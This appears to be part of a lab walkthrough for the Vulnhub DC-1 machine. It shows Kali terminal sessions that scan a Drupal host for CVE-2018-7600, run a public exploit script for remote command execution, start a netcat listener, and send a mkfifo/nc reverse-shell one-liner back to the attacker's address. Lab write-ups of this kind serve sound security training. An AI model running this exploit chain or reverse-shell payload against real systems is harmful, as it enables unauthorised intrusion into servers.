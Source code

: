 ```bash
┌──(emvee㉿kali)-[~/tools/CVE-2018-7600-drupalgeddon2-scanner]
└─$ python3 drupalgeddon2-scan.py -i 10.0.2.30
[~] Starting scan...
==========================================================================
[~] http://10.0.2.30                                             [  OK   ]
     -- Vulnerable (CVE-2018-7600)
==========================================================================
[+] 1 target(s) scanned, 1 target(s) vulnerable (CVE-2018-7600)
[+] Scan completed in 6.877 seconds

```

So the target is vulnerable for the druppalgeddon2 vulnerability.
```bash
┌──(emvee㉿kali)-[~/tools/CVE-2018-7600]
└─$ python drupa7-CVE-2018-7600.py -c whoami http://10.0.2.30
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
()
=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-Bg-pRNxz57cqHzTZhXROmuBjPkwxz8CEulCPzUCxqZU
[*] Triggering exploit to execute: whoami
www-data

```
Now start a netcat listener on port 53
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-1]
└─$ sudo nc -lvp 53                 
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53

```
Now start a reverse shell to my netcat listener.
```bash
┌──(emvee㉿kali)-[~/tools/CVE-2018-7600]
└─$ python drupa7-CVE-2018-7600.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.0.2.15 53 >/tmp/f' http://10.0.2.30
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
()
=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-5TUpJ7_gHDfaw05UhnEbcBQlyzrUiGIVfsdyFrv8TvQ
[*] Triggering exploit to execute: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.0.2.15 53 >/tmp/f

```
